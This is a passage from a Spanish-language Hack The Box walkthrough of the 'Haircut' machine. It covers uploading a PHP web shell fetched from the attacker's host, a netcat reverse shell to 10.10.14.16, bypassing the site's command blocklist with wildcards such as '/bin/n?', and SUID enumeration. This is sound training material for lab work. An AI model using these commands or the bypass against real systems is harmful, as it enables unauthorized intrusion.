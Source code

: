 Lo subimos al servidor:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.24 - - [18/Oct/2021 20:56:59] "GET /shell.php HTTP/1.1" 200 -
```

```bash
http://10.10.14.16/shell.php -o /var/www/html/uploads/shell.php
```

![""](/assets/images/htb-haircut/haircut-shell.png)

Ya tenemos ejecución de comandos a nivel de sistema; asi que vamos a tratar de entablarnos una reverse shell con `nc` y nos ponemos en escucha por el puerto 443:

```bash
http://10.10.10.24/uploads/shell.php?cmd=nc -e /bin/bash 10.10.14.16 443 &
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.24] 49758
whoami
www-data
```

Nos encontramos dentro de la máquina víctima, pero antes de todo, vamos a realizar un [Tratamiento de la tty](/posts/tratamiento-tty) para trabajar más cómodos.

Ahora, si revisamos el archivo `exposed.php` ubicado en la ruta `/var/www/html/`, vemos que no podemos utilizar los siguientes caracteres y palabras dentro del input:

```php
$disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']');
```

A este punto, ya debemos estar pensando en otra forma de acceder a la máquina con la ejecución de comandos y sin necesidad de subir una reverse shell:

```bash
http://$(/bin/n? -e /bin/bas? 10.10.14.16 443)
```

Si lo ejecutamos y nos ponemos en escucha por el puerto 443, se nos entabla una reverse shell y podemos visualizar la flag (user.txt). Ahora nos queda escalar privilegios, por lo que enumeramos un poco el sistema.

```bash
www-data@haircut:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haircut:/$ sudo -l
[sudo] password for www-data: 
www-data@haircut:/$ cd /
www-data@haircut:/$ find \-perm -4000 2>/dev/null
./bin/ntfs-3g
./bin/ping6
./bin/fusermount
./bin/su
./bin/mount
./bin/ping
./bin/umount
./usr/bin/sudo
```